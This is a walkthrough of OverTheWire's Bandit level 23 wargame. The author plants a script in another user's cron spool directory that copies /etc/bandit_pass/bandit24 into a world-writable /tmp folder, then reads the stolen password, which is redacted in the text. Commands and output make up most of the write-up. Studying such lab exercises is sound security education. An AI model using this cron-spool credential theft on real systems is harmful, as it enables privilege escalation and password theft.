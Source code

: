 ```jsx

```

So this requires us to create our own shell script to pass this level, however we shall use some trick, we will create the variable myname and assign the value bandit24 as shown below.

```jsx
bandit23@bandit:~$ myname=bandit24
bandit23@bandit:~$ $myname
bandit24: command not found
bandit23@bandit:~$
```

After creating the variable we shall then create a tmp adirectory where the password will be stored for us to be able to reach it by setting the directory permissions for everyone to be able to read, write and execute it as shown below

```jsx
bandit23@bandit:~$ mkdir /tmp/victor
bandit23@bandit:~$ chmod 777 /tmp/victor
bandit23@bandit:~$
```

After that we shall then switch to the spool directory of bandit user bandit24 using the variable we created as shown below.

```jsx
bandit23@bandit:~$ cd /var/spool/$myname
bandit23@bandit:/var/spool/bandit24$ ls
foo
bandit23@bandit:/var/spool/bandit24$ cd foo
bandit23@bandit:/var/spool/bandit24/foo$
```

After that we create our script inside here and change its permissions to an executable in order for us to get the password stored in our temporary directory. The contents of our script will be as follows

```jsx
#!/usr/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/victor/pass.txt
```

Below is the file setup.

```jsx
bandit23@bandit:/var/spool/bandit24/foo$ nano get.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/var/spool/bandit24/foo$ chmod +x get.sh
bandit23@bandit:/var/spool/bandit24/foo$
```

We then wait for a minute, then see what is stored in our temporary directory.

```jsx
bandit23@bandit:/var/spool/bandit24/foo$ ls /tmp/victor
pass.txt
bandit23@bandit:/var/spool/bandit24/foo$ cat /tmp/victor/pass.txt
[REDACTED]
```
